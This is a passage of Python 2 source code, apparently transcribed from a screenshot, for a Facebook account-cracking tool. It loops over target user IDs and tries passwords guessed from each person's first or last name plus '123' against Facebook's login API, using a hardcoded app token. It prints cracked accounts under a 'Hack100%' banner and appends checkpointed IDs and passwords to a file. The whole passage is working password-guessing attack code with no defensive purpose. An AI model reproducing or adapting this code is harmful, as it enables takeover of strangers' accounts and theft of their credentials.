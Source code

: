 				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user											
				print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b ['name']
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				    print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user								
				            print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				               print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'								
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']									
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user							
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()